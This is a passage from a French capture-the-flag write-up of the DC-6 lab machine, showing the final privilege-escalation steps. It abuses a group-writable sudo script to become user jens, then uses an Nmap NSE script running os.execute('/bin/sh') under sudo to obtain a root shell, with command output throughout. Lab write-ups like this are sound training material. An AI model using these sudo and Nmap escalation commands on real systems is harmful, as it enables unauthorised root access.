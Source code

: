 ```console
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
```

`Graham` peut exécuter le script `backups.sh` avec les privilèges de `jens` or le fichier est modifiable par tous les membres du groupe `devs`.

J'ai donc simplement mis un appel à bash à l'intérieur.

```console
graham@dc-6:/home/jens$ sudo -u jens /home/jens/backups.sh
jens@dc-6:~$ id
uid=1004(jens) gid=1004(jens) groups=1004(jens),1005(devs)
jens@dc-6:~$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
```

Dernière étape, l'utilisation d'un [GTFObin pour Nmap](https://gtfobins.github.io/gtfobins/nmap/#sudo) :

```console
jens@dc-6:~$ echo 'os.execute("/bin/sh")' > yolo
jens@dc-6:~$ sudo /usr/bin/nmap --script=yolo

Starting Nmap 7.40 ( https://nmap.org ) at 2023-03-22 08:19 AEST
NSE: Warning: Loading 'yolo' -- the recommended file extension is '.nse'.
# uid=0(root) gid=0(root) groups=0(root)
# # theflag.txt
# 

Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
